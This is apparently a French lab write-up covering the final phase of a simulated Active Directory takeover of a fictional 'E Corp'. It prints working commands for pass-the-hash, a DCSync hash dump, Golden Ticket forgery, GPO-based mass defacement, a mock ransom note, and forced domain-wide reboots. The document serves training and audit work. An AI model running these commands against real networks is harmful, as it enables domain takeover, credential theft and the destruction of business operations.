




# Phase 5 : Compromission du domaine et impact final (Golden Ticket)

**Correspondance MITRE ATT&CK :**
-   **Credential Access :** OS Credential Dumping: DCSync (T1003.006), Steal or Forge Kerberos Tickets: Golden Ticket (T1558.001)
-   **Lateral Movement :** Use Alternate Authentication Material: Pass the Hash (T1550.002), Pass the Ticket (T1550.003)
-   **Impact :** Defacement: Internal Defacement (T1491.001), System Shutdown/Reboot (T1529)

---

## 1. Prise de contrôle via Pass-the-Hash (PtH)

Grâce au hash NTLM extrait de la mémoire LSASS lors de la phase précédente, l'attaquant s'authentifie directement sur le Contrôleur de Domaine via le tunnel proxychains, sans avoir besoin de connaître le mot de passe en clair.

```bash
proxychains -q evil-winrm -i 10.0.20.5 -u 't.wellick' -H '1397b56e045645f827b5cd3e325fbc73'
```
*L'authentification réussit. L'exécution de la commande `whoami` renvoie `ecorp\t.wellick`, confirmant un accès interactif au cœur du réseau avec les privilèges maximums d'Administrateur du Domaine.*

---

## 2. Attaque DCSync et extraction des secrets

Bien que l'accès d'administrateur soit acquis, l'attaquant cherche à assurer une persistance indétectable. L'outil `secretsdump` de la suite Impacket est utilisé pour simuler le comportement d'un contrôleur de domaine légitime demandant une réplication de la base de données Active Directory (via le protocole DRSUAPI).

```bash
proxychains -q impacket-secretsdump -hashes :1397b56e045645f827b5cd3e325fbc73 ecorp.local/t.wellick@10.0.20.5 -just-dc-ntlm | tee dump_hashes.txt
```



**Analyse de l'impact critique :**

L'outil déverse les condensats de tous les utilisateurs du domaine, dont l'Administrateur local intégré (RID 500). Mais le butin principal est le hash du compte **`krbtgt` (RID 502)**. Ce compte est la clé de voûte de l'Active Directory : son hash chiffre l'ensemble des tickets Kerberos (TGT) du domaine.

---

## 3. Forge et exploitation du Golden Ticket

La possession du hash `krbtgt` permet de forger des tickets d'authentification valides pour n'importe quel utilisateur, avec n'importe quels privilèges, et pour une durée arbitraire. Cette attaque ("Golden Ticket") garantit un accès furtif et persistant, même si l'entreprise change tous les mots de passe des administrateurs.

**1. Récupération de l'identifiant du domaine (SID) :**

```bash
proxychains -q impacket-lookupsid ecorp.local/e.alderson:E@lderson1@10.0.20.5 | grep -F "Domain SID"
# Résultat : S-1-5-21-1592985861-376062820-4048576128
```

**2. Forge du ticket (Impacket-ticketer) :**

L'attaquant forge un ticket hors-ligne au nom du compte "Administrator", s'octroyant les privilèges absolus.
```bash
proxychains -q impacket-ticketer -nthash b84d673b4c644d77b93f610ec185ca5f -domain-sid S-1-5-21-1592985861-376062820-4048576128 -domain ecorp.local Administrator
```
*Le fichier `Administrator.ccache` est généré localement.*

**3. Configuration du client Kerberos (Linux) :**

Le protocole Kerberos exigeant une résolution DNS stricte (FQDN), l'attaquant prépare sa machine locale. Il mappe l'IP cible dans `/etc/hosts` (`10.0.20.5 LAN-WIN-DC01.ecorp.local`) et configure manuellement le client Kerberos pour pointer vers le KDC (Key Distribution Center) de la cible :

```ini
# Modification de /etc/krb5.conf sur la machine attaquante
[libdefaults]
    default_realm = ECORP.LOCAL

[realms]
    ECORP.LOCAL = {
        kdc = 10.0.20.5
        admin_server = 10.0.20.5
    }

[domain_realm]
    .ecorp.local = ECORP.LOCAL
    ecorp.local = ECORP.LOCAL
```

**4. Exploitation via Pass-the-Ticket (PtT) :**

```bash
# Injection du ticket dans l'environnement local
proxychains -q evil-winrm -i LAN-WIN-DC01.ecorp.local -K ~/Downloads/ad_recon/Administrator.ccache -r ECORP.LOCAL
```


*L'outil valide l'utilisation du fichier `.ccache` local et ouvre un shell PowerShell interactif. L'exécution de la commande `whoami` confirme l'accès en tant que `ecorp.local\administrator`, validant la réussite totale du Golden Ticket.*

---

## 4. Simulation d'impact massif (stratégies de groupe et ransomware)

Pour clôturer l'audit, l'attaquant démontre sa capacité à paralyser l'ensemble de l'infrastructure en simulant la méthodologie de déploiement d'un ransomware via les Stratégies de Groupe (GPO).

**1. Mise en place de la charge utile (SYSVOL) :**

L'image de compromission est copiée dans le dossier `SYSVOL` (après avoir été uploadée via la commande native `upload` avec Evil-WinRM), garantissant que tous les postes auront les droits de lecture par défaut au démarrage.
```powershell
Copy-Item "C:\Windows\Temp\SYSTEM_COMPROMISED.png" "C:\Windows\SYSVOL\sysvol\ecorp.local\SYSTEM_COMPROMISED.png" -Force
```

**2. Création et liaison agressive de la GPO :**

L'attaquant crée une GPO et force son application (`-Enforce Yes`) à la racine du domaine, écrasant ainsi toute configuration de sécurité locale bloquant l'héritage.
```powershell
New-GPO -Name "GPO_System_Compromised" | New-GPLink -Target "dc=ecorp,dc=local" -Enforce Yes
```

**3. Altération de l'environnement (Mass-Defacement) :**

Les clés de registre poussées par la GPO ciblent à la fois la session Utilisateur (`HKCU` : Fond d'écran) et la Machine (`HKLM` : Écran de verrouillage avant saisie du mot de passe).
```powershell
Set-GPRegistryValue -Name "GPO_System_Compromised" -Key "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName "Wallpaper" -Type String -Value "\\ecorp.local\SYSVOL\sysvol\ecorp.local\SYSTEM_COMPROMISED.png"

Set-GPRegistryValue -Name "GPO_System_Compromised" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP" -ValueName "LockScreenImagePath" -Type String -Value "\\ecorp.local\SYSVOL\sysvol\ecorp.local\SYSTEM_COMPROMISED.png"
```

---

## 5. Exécution et preuves de compromission (Proof of Concept)

Pour rendre l'attaque immédiate, l'attaquant déploie une note de rançon asynchrone sur tous les postes et force l'actualisation des GPO (`gpupdate /force`).

**Déploiement de la note et exécution arbitraire de code :**

```bash
proxychains -q netexec winrm targets.txt -u 'Administrator' -H '022d9ee301bbac9983e455b54b61563e' -X 'echo "SYSTEM COMPROMISED. All data has been encrypted and exfiltrated. Contact E Corp Security." > "C:\Users\Public\Desktop\SYSTEM_COMPROMISED_INFO.txt"; gpupdate /force'
```
> **Preuve d'exécution de code à distance (RCE) :** Le dépôt de cette simple note texte sur les bureaux (`C:\Users\Public\Desktop\`) n'est qu'une démonstration inoffensive. Elle prouve de manière irréfutable que l'attaquant possède la capacité d'exécuter *n'importe quelle* commande PowerShell simultanément sur l'ensemble du parc. Dans le cadre d'une véritable attaque par ransomware, cette commande `-X` aurait été remplacée par un appel de type `Invoke-WebRequest` pour télécharger, et exécuter le binaire de chiffrement directement en mémoire sur toutes les machines.

**Déni de service par redémarrage massif (OpSec) :**

Afin d'appliquer les paramètres machine (`HKLM`) et couper les accès, un redémarrage brutal (`/r /t 0 /f`) est ordonné. Le script isole d'abord les membres du domaine, avant de frapper le Contrôleur de Domaine en dernier. Éteindre le DC en premier aurait fait tomber le service DNS/Kerberos et empêché la communication vers les autres postes.
```bash
# Reboot des membres du domaine
proxychains -q netexec winrm targets_no_dc.txt -u 'Administrator' -H '022d9ee301bbac9983e455b54b61563e' -X 'shutdown /r /t 0 /f'

# Reboot final du Contrôleur de Domaine
proxychains -q netexec winrm 10.0.20.5 -u 'Administrator' -H '022d9ee301bbac9983e455b54b61563e' -X 'shutdown /r /t 0 /f'
```

### Constat d'impact (PoC)

Après redémarrage, le message de compromission s'affiche. Les captures d'écran ci-dessous ont été prises directement sur le Contrôleur de Domaine, mais ce même résultat s'est appliqué de manière identique sur l'intégralité des postes de travail et serveurs du domaine.


*Impact avant authentification (DC01) : Modification de la ruche HKLM.*


*Impact utilisateur (DC01) : Application de la GPO (fond d'écran) et dépôt de la note de rançon.*

**Conclusion :** La simulation prouve que l'attaquant a acquis la capacité de modifier des paramètres globaux et d'écrire des fichiers sur absolument tous les postes et serveurs de l'entreprise simultanément. Le système d'information de E Corp est techniquement considéré comme détruit ou sous contrôle hostile total.